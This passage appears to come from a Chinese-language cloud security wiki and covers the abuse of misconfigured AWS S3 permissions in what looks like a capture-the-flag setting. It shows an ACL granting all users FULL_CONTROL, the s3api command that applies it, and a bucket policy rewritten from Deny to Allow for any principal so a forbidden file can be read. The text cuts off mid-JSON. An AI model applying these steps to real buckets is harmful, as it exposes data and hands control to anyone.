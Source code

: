 ```sh
{
    "Owner": {
        "ID": "d24***5"
    },
    "Grants": [
	{
            "Grantee": {
                "Type": "Group", 
                "URI": "http://acs.amazonaws.com/groups/global/AllUsers"
            }, 
            "Permission": "FULL_CONTROL"
        } 
    ]
}
```

将该策略写入后，就可以读取对象了

```sh
aws s3api put-object-acl --bucket teamssix --key flag --access-control-policy file://acl.json
```

![img](https://wiki.teamssix.com/img/1650007059.png)

# Bucket策略可写

##  修改策略获得敏感文件

现有以下 Bucket 策略

![img](https://wiki.teamssix.com/img/1650007548.png)

可以看到根据当前配置，我们可以对 Bucket 策略进行读写，但如果想读取 s3://teamssix/flag 是被禁止的

![img](https://wiki.teamssix.com/img/1650007587.png)

因为当前策略允许我们写入 Bucket 策略，因此可以将策略里原来的 Deny 改为 Allow，这样就能访问到原来无法访问的内容了。

修改后的策略如下：

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "AWS": [
                    "*"
                ]
            },
            "Action": [
                "s3:GetBucketPolicy",
                "s3:PutBucketPolicy"
            ],
            "Resource": [
                "arn:aws:s3:::teamssix"
            ]
        },
        {
            "Effect": "Allow",
            "Principal": {
                "AWS": [
                    "*"
```